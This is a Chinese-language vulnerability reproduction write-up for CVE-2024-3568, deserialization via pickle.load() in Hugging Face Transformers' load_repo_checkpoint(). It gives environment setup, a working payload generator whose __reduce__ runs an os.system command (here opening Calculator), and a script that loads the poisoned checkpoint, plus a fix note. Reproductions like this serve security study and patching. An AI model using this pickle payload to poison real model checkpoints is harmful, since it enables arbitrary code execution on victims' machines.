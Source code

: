 # Huggingface Transformers Checkpoint 反序列化漏洞 CVE-2024-3568

## 漏洞描述

CVE-2024-3568 是 Huggingface 的 Transformers 库中存在的一个反序列化漏洞，该漏洞源于 `TFPreTrainedModel()` 类的 `load_repo_checkpoint()` 函数在反序列化未经信任的数据时，使用了不安全的 `pickle.load()` 方法。攻击者可以通过构造恶意的序列化负载，诱使受害者在正常的训练过程中加载看似无害的检查点，从而在目标机器上执行任意代码，导致远程代码执行。

此漏洞的利用方式可能包括供应链投毒，即攻击者在模型数据中插入恶意构造的数据，利用反序列化过程触发恶意代码执行。这类攻击的危险性在于，受害者将在不知情的情况下加载被篡改的模型 checkpoint，导致攻击者在其系统上执行任意代码。

参考链接：

- https://github.com/advisories/GHSA-37q5-v5qm-c9v8
- https://github.com/huggingface/transformers/commit/693667b8ac8138b83f8adb6522ddaf42fa07c125
- https://huntr.com/bounties/b3c36992-5264-4d7f-9906-a996efafba8f

## 披露时间

```
2024.02.03
```

## 漏洞影响

```
transformers < 4.38.0
```

## 环境搭建

基于 python 3.9 创建一个虚拟环境，需要安装指定的版本的 `tensorflow`、`transformers`、`keras`，否则可能报兼容性错误：

```shell
# 创建工作目录
mkdir CVE-2024-3568 && cd CVE-2024-3568

# 使用 Python 3.9 创建新的 venv
python3.9 -m venv venv
source venv/bin/activate

# 安装兼容的 TensorFlow 版本
pip install --upgrade pip
pip install tensorflow==2.15 transformers==4.37.2 keras==2.15
```

登录 Huggingface 获取 AccessToken，`huggingface-cli` 登录：

```
> huggingface-cli login
Enter your token (input will not be visible): xxxxxxxxx
```

目录结构：

```
CVE-2024-3568
├── awesome_poc
│   └── checkpoint
│       ├── extra_data.pickle
│       └── weights.h5
├── generate_payload.py
├── poc.py
└── venv
```

通过 `generate_payload.py` 生成 `extra_data.pickle` 和 `weights.h5`：

- `extra_data.pickle`：序列化的元数据文件，模型加载时会使用 `pickle.load()` 加载这个文件。
- `weights.h5`：模型权重文件，与模型架构对应，否则将抛出异常。

```python
import pickle
import os
from transformers import TFAutoModel
class CExecute:
    def __reduce__(self):
        import os
        cmd = 'open /System/Applications/Calculator.app'
        return (os.system,(cmd,))

poc = CExecute()
with open('awesome_poc/checkpoint/extra_data.pickle', 'wb') as fp:
    pickle.dump(poc,fp)

# Generate weights.h5
model = TFAutoModel.from_pretrained('google-bert/bert-base-uncased')
model.save_weights(os.path.join('awesome_poc', 'weights.h5'))
```

## 漏洞复现

在 `pickle` 反序列化的过程中，会调用对象的 `__reduce__` 方法，此时将会执行我们写入的命令 `open /System/Applications/Calculator.app`。

通过 `poc.py` 模拟模型训练，加载带有恶意命令的 `checkpoint`：

```python
from transformers import TFAutoModel
from tensorflow.keras.optimizers import Adam
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

model.load_repo_checkpoint('awesome_poc')
```

![](images/Huggingface%20Transformers%20Checkpoint%20反序列化漏洞%20CVE-2024-3568/image-20250304154148096.png)

## 漏洞修复

- 升级 transformers 至最新版本 https://github.com/huggingface/transformers

